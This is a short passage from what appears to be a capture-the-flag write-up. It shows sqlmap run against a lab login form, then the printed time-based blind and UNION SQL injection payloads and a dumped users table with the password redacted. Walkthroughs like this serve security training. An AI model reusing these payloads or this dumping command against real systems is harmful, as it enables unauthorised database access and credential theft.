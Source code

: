 ![](images/bibli4.png)

I try to use some basic **SQLi** against the login form and decide to just test it with **sqlmap**:

`sqlmap -u http://10.10.20.17:8000/login -T users --dump --forms --crawl=2`

```
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 57 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=eHNV' AND (SELECT 7962 FROM (SELECT(SLEEP(5)))HxbM) AND 'OJUx'='OJUx&password=

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: username=eHNV' UNION ALL SELECT NULL,CONCAT(0x716b627071,0x6156636f4f696a6466434270784658745677744752785a6a49795761667243456249645142557959,0x716b627171),NULL,NULL-- -&password=

[12:01:13] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[12:01:13] [INFO] fetching entries for table 'users' in database 'website'

[1 entry]
+----+-------------------+----------------+----------+
| id | email             | password       | username |
+----+-------------------+----------------+----------+
| 1  | smokey@email.boop | <REDACTED>     | smokey   |
+----+-------------------+----------------+----------+
```
